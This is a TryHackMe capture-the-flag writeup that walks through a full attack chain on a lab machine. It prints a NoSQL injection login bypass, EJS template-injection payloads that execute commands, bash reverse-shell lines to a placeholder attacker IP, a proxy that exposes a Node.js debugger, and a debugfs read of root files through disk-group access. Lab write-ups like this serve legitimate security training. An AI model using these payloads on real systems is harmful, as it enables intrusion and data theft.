+++
title = 'Do Not Disturb | TryHackMe Room Writeup'
date = '2026-08-04T09:15:00+05:00'
lastmod = '2026-08-07T12:00:00+05:00'
draft = false
description = 'A walkthrough of Do Not Disturb, a TryHackMe Boot2Root room involving NoSQL injection, EJS template injection, an exposed Node.js inspector, and disk-group privilege escalation.'
categories = ['Writeups']
tags = ['TryHackMe', 'NoSQL Injection', 'EJS', 'Node.js', 'Linux Privilege Escalation', 'Hacker Holidays']
topics = ['tryhackme']
keyClues = ['attendant', 'username[$gt]=b', 'processor.js on port 9229', 'pipelinesvc', '/dev/nvme0n1p1']
toc = true
image = 'images/room-header.png'
+++

Welcome to my writeup for the TryHackMe room **[Do Not Disturb](https://tryhackme.com/room/hh-donotdisturb-84a45644)**, part of the **Hacker Holidays** series. The room's premise made me expect session hijacking, but the actual path went from NoSQL injection to EJS template injection, then through an exposed Node.js debugger and direct access to the root filesystem.

This was a tough room compared with the previous rooms in the series, especially once I reached privilege escalation.

> **Spoiler warning:** This walkthrough reveals the complete solution path, but both flags and my VPN address are masked.


The concierge briefing talked about a session going warm and a stranger sitting down in it. That sounded like a strong hint toward session hijacking, but it turned out to be a red herring for my solve.



## Reconnaissance

I began with an Nmap scan of the target:

```bash
nmap -sC -sV -oN nmap.txt <TARGET_IP>
```

Only two TCP ports were open:

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
```

The fingerprint on port `80` was especially useful: the site was running on Node.js with Express. That did not prove MongoDB was present, but it made a JavaScript-oriented stack and therefore a MongoDB-style NoSQL backend worth considering.

Port `80` hosted the Byte Lotus poolside website. The only visible functionality was a sign-in form, with `attendant` shown as the username placeholder.



I tried a few simple credentials first, but the application rejected them.



Intercepting the request showed a conventional URL-encoded POST to `/login`:

```http
POST /login HTTP/1.1
Host: <TARGET_IP>
Content-Type: application/x-www-form-urlencoded

username=abc&password=1234
```



I tested the form with SQLMap next, but it did not find a usable SQL injection. Combined with Nmap's Node.js and Express fingerprint, that suggested the backend might not be using a relational database at all.

## Bypassing the Login with NoSQL Injection

I moved on to NoSQL injection and replaced both values with MongoDB-style `$gt` operators:

```text
username[$gt]=b&password[$gt]=b
```



When an Express application accepts nested form parameters, input such as `username[$gt]=b` may be parsed as an object resembling this:

```js
{
  username: { $gt: "b" },
  password: { $gt: "b" },
}
```

If that object is passed directly into a MongoDB query, the application no longer checks for an exact username and password. It instead asks the database for an account whose fields compare greater than `b`.

The payload authenticated me and issued a session cookie. I then followed the redirect to `/staff`.



The session was valid, but the account selected by the broad query was not a staff account, so the application returned `403 Staff access only`.



The login form's `attendant` placeholder now looked more like a clue than decoration. I fixed the username and used the operator only for the unknown password:

```text
username=attendant&password[$gt]=
```

The empty comparison value matched the attendant's non-empty password.



This time, the new session was authorized for `/staff`.



## EJS Template Injection

The staff page opened a **Cabana Desk** where the attendant could customize a booking-confirmation template. The form explicitly identified the template language as EJS and even showed the normal `<%= guest %>` interpolation syntax.



Because the server was evaluating the submitted text as a template, I tested whether I could reach Node.js modules and run an operating-system command:

```ejs
<%= global.process.mainModule.require('child_process').execSync('id').toString() %>
```

The preview returned the command's output:

```text
uid=996(poolside) gid=996(poolside) groups=996(poolside)
```



That confirmed server-side template injection and arbitrary command execution as the `poolside` user. I listed the user's home directory next:

```ejs
<%= global.process.mainModule.require('child_process').execSync('ls /home/poolside').toString() %>
```



The user flag was exactly where I expected it to be:

```ejs
<%= global.process.mainModule.require('child_process').execSync('cat /home/poolside/user.txt').toString() %>
```



## Getting a Better Shell with Penelope

The template was enough for individual commands, but privilege-escalation enumeration is much easier from an interactive shell. I recently discovered [Penelope](https://github.com/brightio/penelope), a reverse-shell handler that automatically upgrades the shells it receives. It is a beautiful little tool.

From the Penelope directory, I started its default listener:

```bash
python3 penelope.py
```

I then submitted a reverse-shell command through the EJS template:

```ejs
<%= global.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"').toString() %>
```



Penelope caught the connection and automatically gave me an upgraded shell as `poolside`.



There was another home directory belonging to `pipelinesvc`, but `poolside` could not enter it:

```bash
ls -la /home
ls -la /home/pipelinesvc
```



## Finding the Exposed Node.js Inspector

Remembering the privilege-escalation path from my [Beach Bar writeup](/blog/beach-bar-tryhackme-writeup/), where an important process was running as root, I started by inspecting the process list:

```bash
ps aux
```

There was no immediately useful root process this time. However, a Node.js service was running as `pipelinesvc` with the `--inspect` option:

```text
pipelinesvc  ...  /usr/bin/node --inspect=127.0.0.1:9229 processor.js
```



The inspector was bound to the target's loopback interface on port `9229`. I confirmed it from the foothold by requesting its metadata endpoint:

```bash
curl -s http://127.0.0.1:9229/json
```

The response described `processor.js` and included its WebSocket debugging URL.



The Node.js inspector provides a debugging console inside the running process. If I could make that loopback-only service reachable from Chromium, I could evaluate JavaScript in the context of `processor.js` and therefore execute commands as `pipelinesvc`.

## Proxying the Debug Port

I created a small TCP proxy named `proxy.js` on the target:

```js
const net = require("net");

net.createServer((client) => {
  const inspector = net.createConnection({
    host: "127.0.0.1",
    port: 9229,
  });

  client.pipe(inspector);
  inspector.pipe(client);
}).listen(8000, "0.0.0.0", () => {
  console.log("Proxy running on 0.0.0.0:8000");
});
```

I launched it in the background:

```bash
node proxy.js &
```



On my machine, I opened `chrome://inspect` in Chromium, selected **Configure**, and added the target's proxied endpoint:

```text
<TARGET_IP>:8000
```



Chromium discovered `processor.js` as a remote Node.js target. Clicking **inspect** opened its DevTools console.



I verified command execution from the console:

```js
require('child_process').execSync('id').toString()
```

The output showed that the code was now running as `pipelinesvc`:

```text
uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
```



## Abusing Membership in the Disk Group

I wanted a fully interactive shell again, so I started a second Penelope listener:

```bash
python3 penelope.py -p 4445
```

Then I executed another reverse shell from the DevTools console:

```js
require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4445 0>&1"')
```

Penelope received the connection as `pipelinesvc`. The important detail in the output of `id` was not just the new username: this account belonged to group `6(disk)`.



Members of the `disk` group can access raw block devices. That access effectively bypasses normal filesystem permissions, so a user in this group can read files owned by root directly from the underlying filesystem.

I listed the block devices and confirmed which partition held `/`:

```bash
lsblk
df -h /
```

The root filesystem was on `/dev/nvme0n1p1`.



After a bit of research, I used `debugfs` to open that ext filesystem and issue its `cat` request against the root flag:

```bash
debugfs -R "cat /root/root.txt" /dev/nvme0n1p1
```



This did not turn `pipelinesvc` into UID `0`; it did not need to. `debugfs` read the file directly from the block device, outside the normal pathname permission checks, which was enough to retrieve the root flag.

## Why the Exploit Chain Worked

```text
NoSQL operators accepted by the login form
                    ↓
Password bypass for the attendant account
                    ↓
Attacker-controlled text evaluated as EJS
                    ↓
Command execution and a shell as poolside
                    ↓
Loopback Node.js inspector reached through a proxy
                    ↓
Command execution and a shell as pipelinesvc
                    ↓
Raw block-device access through the disk group
                    ↓
Root flag read directly with debugfs
```

Each step crossed a different boundary. The NoSQL injection bypassed authentication, the EJS injection turned staff access into operating-system commands, the inspector moved execution into a second service account, and the `disk` group bypassed filesystem permissions entirely.

## Takeaways

Do Not Disturb reinforced several useful lessons:

- do not pass untrusted request objects directly into database queries;
- reject unexpected nested objects and query operators during input validation;
- small interface details such as placeholders can disclose useful usernames or roles;
- never evaluate user-controlled text as an EJS template;
- treat a Node.js inspector as a remote-code-execution interface and disable it in production;
- remember that a loopback-only service may still be reachable after an attacker gains a local foothold;
- audit service-account group memberships carefully, especially powerful groups such as `disk`;
- enumerate running processes and local-only ports during privilege escalation;
- use an interactive shell handler such as Penelope when a basic reverse shell starts slowing down enumeration.

The hardest part was recognizing that the exposed inspector was a route into `pipelinesvc`, then noticing what initially looked like a minor supplementary group. Membership in `disk` was effectively the final privilege-escalation primitive.

This was definitely tougher than the earlier rooms in the series, and a satisfying one to finish.

And we're done!
